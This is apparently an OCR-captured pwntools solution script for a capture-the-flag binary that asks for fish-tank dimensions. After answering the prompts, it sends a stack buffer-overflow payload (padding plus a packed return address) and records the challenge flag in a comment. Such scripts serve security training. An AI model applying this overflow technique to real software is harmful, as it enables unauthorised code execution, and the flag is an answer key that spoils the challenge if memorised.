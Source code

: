```
  r = mainz.process()
  if(debug == 2):
    gdb.attach(r, """source ./script.py""") #some breakpoint etc..?
  
def halt():
  while True:
    log.info( r.recvline() )

def interactive():
  if not online:
    print( """/usr/bin/gdb -q  {0} {1}""".format( r.argv[0], r.pid ) )
  r.interactive()

def printf(strz):
  r.recvuntil(strz)

def scanf( _):
  r.sendline("1")

def getchar():
  return

def exploit():
	printf("Enter the number of fish in your fish tank: ");
	scanf("%d");
	getchar();

	printf("Enter the size of the fish in your fish tank: ");
	scanf("%d")
	getchar();

	printf("Enter the amount of water in your fish tank: ");
	scanf("%d")
	getchar();

	printf("Enter the width of your fish tank: ");
	scanf("%d")
	getchar();

	printf("Enter the length of your fish tank: ");
	scanf("%d")
	getchar();

	printf("Enter the height of your fish tank: ");
	scanf("%d")
	getchar();

	printf("Enter the name of your fish tank: ");
	flag = 0x4011b6;
	payload = ""
	payload += "A"*0x90
	payload += "B"*0x8
	payload += p64(flag)
	r.sendline(payload)
	print(r.recvline() )
	#interactive() #actf{overflowed_more_than_just_a_fish_tank}

exploit()
```

